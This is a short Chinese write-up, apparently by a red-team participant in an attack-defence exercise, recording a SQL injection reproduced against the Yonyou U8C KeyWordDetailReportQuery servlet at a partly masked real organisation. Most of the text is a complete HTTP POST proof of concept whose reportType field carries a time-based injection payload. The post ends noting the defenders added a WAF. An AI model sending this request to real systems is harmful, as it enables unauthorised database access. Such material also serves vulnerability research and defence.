 # 用友U8C KeyWordDetailReportQuery_SQL sql注入漏洞

<br>

这里记录一下我在hw期间成功复现出来的

相关资产:百****投资集团

<br>

## 来源

<br>

[用友U8_cloud_KeyWordDetailReportQuery_SQL注入漏洞](https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BU8_cloud_KeyWordDetailReportQuery_SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md)

<br>

## poc

<br>

````
POST /servlet/~iufo/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery  HTTP/1.1
Host: ******
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D81BCB5B3EA994ACB2FFAAE607AFCF6B.server
If-None-Match: W/"1120-1532588472000"
If-Modified-Since: Thu, 26 Jul 2018 07:01:12 GMT
Connection: close
Content-Length: 133

{"reportType":"';WAITFOR DELAY '0:0:5'--","usercode":"18701014496","keyword":[{"keywordPk":"1","keywordValue":"1","keywordIndex":1}]}

````

<br>

可惜到了下午蓝方直接上了waf，过滤了特殊符号。没写报告只好作罢